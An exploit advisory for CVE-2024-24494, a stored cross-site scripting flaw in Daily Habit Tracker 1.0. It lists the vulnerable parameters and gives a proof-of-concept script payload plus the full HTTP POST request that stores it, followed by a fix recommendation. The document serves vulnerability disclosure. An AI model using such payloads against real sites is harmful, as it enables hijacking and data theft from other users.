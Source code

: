 # Exploit Title: Daily Habit Tracker 1.0 - Stored Cross-Site Scripting (XSS)
# Date: 2 Feb 2024
# Exploit Author: Yevhenii Butenko
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17118/daily-habit-tracker-using-php-and-mysql-source-code.html
# Version: 1.0
# Tested on: Debian
# CVE : CVE-2024-24494

### Stored Cross-Site Scripting (XSS):

> Stored Cross-Site Scripting (XSS) is a web security vulnerability where an attacker injects malicious scripts into a web application's database. The malicious script is saved on the server and later rendered in other users' browsers. When other users access the affected page, the stored script executes, potentially stealing data or compromising user security.

### Affected Components:

> add-tracker.php, update-tracker.php

Vulnerable parameters:
- day
- exercise
- pray
- read_book
- vitamins
- laundry
- alcohol
- meat

### Description:

> Multiple parameters within `Add Tracker` and `Update Tracker` requests are vulnerable to Stored Cross-Site Scripting. The application failed to sanitize user input while storing it to the database and reflecting back on the page.

## Proof of Concept:

The following payload `<script>alert('STORED_XSS')</script>` can be used in order to exploit the vulnerability.

Below is an example of a request demonstrating how a malicious payload can be stored within the `day` value:

```
POST /habit-tracker/endpoint/add-tracker.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 175
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/habit-tracker/home.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

date=1992-01-12&day=Tuesday%3Cscript%3Ealert%28%27STORED_XSS%27%29%3C%2Fscript%3E&exercise=Yes&pray=Yes&read_book=Yes&vitamins=Yes&laundry=Yes&alcohol=Yes&meat=Yes
```

![XSS Fired](https://github.com/0xQRx/VunerabilityResearch/blob/master/2024/img/xss.png?raw=true)

## Recommendations

When using this tracking system, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.